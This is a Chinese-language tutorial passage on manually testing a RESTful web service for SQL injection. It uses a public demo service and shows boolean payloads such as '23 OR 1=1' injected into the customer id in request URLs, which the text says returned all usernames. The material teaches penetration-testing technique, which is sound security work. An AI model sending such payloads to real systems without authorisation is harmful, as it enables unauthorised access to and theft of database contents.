 Web Service中的SQL注入（SQLi）漏洞与普通Web渗透测试中漏洞并无区别。

我们需要仔细检查Web Service中所有函数的所有参数，检查它们是否受到SQLi漏洞影响。

我们以“http://www.thomas-bayer.com/sqlrest/”这个RESTful Web Service为例，分析该服务存在的SQLi漏洞。我们使用Firefox中的RESTClient插件检测SQLi漏洞。

我们的目标是“http://www.thomas-bayer.com/sqlrest/CUSTOMER/$id”中的id参数，我们可以构造某些SQLi载荷，发往该地址，解析返回的结果。

[![](./img/85910/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0129d4ca113df184d1.png)

正常的id值为23，我们使用的测试载荷为：

```
23 AND 1=1
```

测试地址为：

```
http://www.thomas-bayer.com/sqlrest/CUSTOMER/23%20AND%201=1/
```

返回结果为：

[![](./img/85910/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0151ee596a66e76451.png)

我们没有看到任何错误页面，貌似SQL服务器正确处理了这个请求逻辑。

更换测试载荷，如下所示。

```
23 AND 1=0
```

测试地址为：

```
http://www.thomas-bayer.com/sqlrest/CUSTOMER/23%20AND%201=0
```

返回结果为：

[![](./img/85910/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0196a2778e2ea4c6d5.png)

如果载荷不满足SQL查询条件，服务器会返回404响应报文。

我们发送如下载荷，并最终获得了服务器上的所有用户名。

```
23 OR 1=1
```

测试地址：

```
http://www.thomas-bayer.com/sqlrest/CUSTOMER/23%20OR%201=1
```

包含用户名的服务器响应如下：

[![](./img/85910/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015cd6ce6d2711de0c.png)

我们可以通过这种方法，手动检查SQLi漏洞。我们可以先向目标系统发送一段简单载荷，检查响应内容，确定Web Service对应的函数是否存在SQLi漏洞。
